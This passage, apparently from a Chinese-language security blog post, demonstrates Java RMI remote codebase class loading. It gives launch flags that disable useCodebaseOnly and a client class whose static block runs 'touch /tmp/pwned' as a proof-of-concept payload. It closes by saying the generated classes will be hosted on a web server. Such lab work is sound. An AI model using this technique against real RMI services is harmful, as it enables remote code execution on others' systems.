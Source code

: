 ```java
new RemoteRMIServer().start();  
}  
}
```

```
javac *.java
java -Djava.rmi.server.hostname=47.115.225.142 -Djava.rmi.server.useCodebaseOnly=false -Djava.security.policy=client.policy
RemoteRMIServer
```

![image.png](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/20230727162210.png)

RMIClient.java
```java
import java.rmi.Naming;  
import java.util.List;  
import java.util.ArrayList;  
import java.io.Serializable;  
public class RMIClient implements Serializable {  
  
private static final long serialVersionUID = 1L;  
  
static {  
try{  
Runtime.getRuntime().exec("touch /tmp/pwned");  
} catch (Exception e){  
e.printStackTrace();  
}  
}  
public class Payload extends ArrayList<Integer>  
{}  
  
public void lookup() throws Exception {  
ICalc r = (ICalc)  
Naming.lookup("rmi://127.0.0.1:1099/refObj");  
List<Integer> li = new Payload();  
li.add(3);  
li.add(4);  
System.out.println(r.sum(li)); }  
public static void main(String[] args) throws Exception {  
new RMIClient().lookup();  
}  
}
```

![image.png](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/20230727162224.png)

![image.png](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/20230727162242.png)

能够收到远程加载类的请求，那么接下来把生成的两个类放在web server上。
